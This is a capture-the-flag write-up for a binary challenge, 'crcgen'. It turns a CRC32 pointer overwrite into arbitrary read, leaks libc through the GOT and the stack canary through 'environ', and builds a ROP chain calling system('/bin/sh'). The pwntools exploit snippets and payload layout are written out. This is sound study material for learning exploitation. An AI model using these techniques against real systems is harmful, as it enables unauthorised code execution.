









## Introduction

Crcgen is a REALLY cool challenge!
In this challenge we do not get source code, we get only the binary.
The code get a user input and prints the crc32 of it.

There are several stack buffer overflow, but the problem is the `binary deffenses`


We can't overflow buffers since canary is enabled.
an arbitrary write would also wont be easy to use since `full relro`

# Arbitrary Read
Lets take a look at the code:


First they are allocating the buffer on the heap, 
and then they are doing
```c
user_buffer[32] = user_buffer
```

Which might be interesting.


Thats a really interesting part!
They putting as the buffer to calc crc, `user_buffer[32]`
which holds the address to `user_buffer`
so basicly they are putting the address to the buffer.

but what if, we would override `buffer[32]` ?
We can calculate the `crc32` of any address!

Since its only 4 bytes, u can bruteforce the crc and get the actual data.
Also with some effort, u could use a nice algorithm to reverse a crc without bruteforce it :)
(its possible for 4 bytes and less)

Leak data:
```python
p.sendline(256*b'a' + p64(addr + i*4))
p.recvuntil(b"CRC is:")
crc = p.recvline().decode().strip()
value = u32(reverse_crc32(int(crc, 16)))
```

We are putting `256*'a'` in order to get to `user_buffer[32]` then putting the address we want to read from, we will get the `crc` and reverse it!
## Leak libc

So we have arbitrary read, whats now?
we can read the `got` entry for `puts` and calculate the offset and get the address of `libc`!

```python
puts_addr = leak_addr(p, crcgen.sym["got.puts"])
libc.address = puts_addr - puts_from_libc_offset
return libc.address
```

## Leak canary

After playing with this for a while, i got to the point which i cant find another primitive, and then i got the idea of just leaking the canary and use a regular stack overflow!
but how could we get a stack leak?!

## Environ

In `libc` there is a symbol called `environ` which just holds the value of the third argument to `main` which is `char** envp`
so, if we read this value, we can get a stack leak!


## Leak canary


We can read the `environ` variable, and then just calculate the offset from the canary.
on my local machine its `0x130`
You will need to change it on the remote, after i played in the remote a bit it should be `0x128`

```python
global libc
environ = libc.sym["environ"]
environ = leak_addr(p, environ)
return environ - 0x128
```

Now we have the address of the canary, reading `environ - 0x128` will give us the canary value!
We can try to override the stack canary and look in gdb what happent:


so in `get_user_input` we need to submit `88` characters, then the value of the leaked canary.



And here we can see, the ret address is after 104 bytes!

## ROP Chain

We have the address of libc, the canary value, and all the offsets.
We want to call `system("/bin/sh")`
but we are on `64bit` which means, the parameters pass through registers,
So we first need to put the address of "/bin/sh" in `rdi`


Sounds fun!

so:
```
'a'*88 + canary + 'a'*(104-<current_payload_length>) + pop_rdi + binsh_addr + system_addr 
```

```python
global libc

ret_offset = 104
canary_buffer_offset = 88

rop = ROP([crcgen, libc])
rop.call(libc.sym['system'], [next(libc.search(b"/bin/sh"))])
print(rop.dump())

payload = b'a'*canary_buffer_offset + p64(canary_value)
payload += b'a'*(ret_offset-len(payload)) + rop.chain()

return payload
```

And thats it!

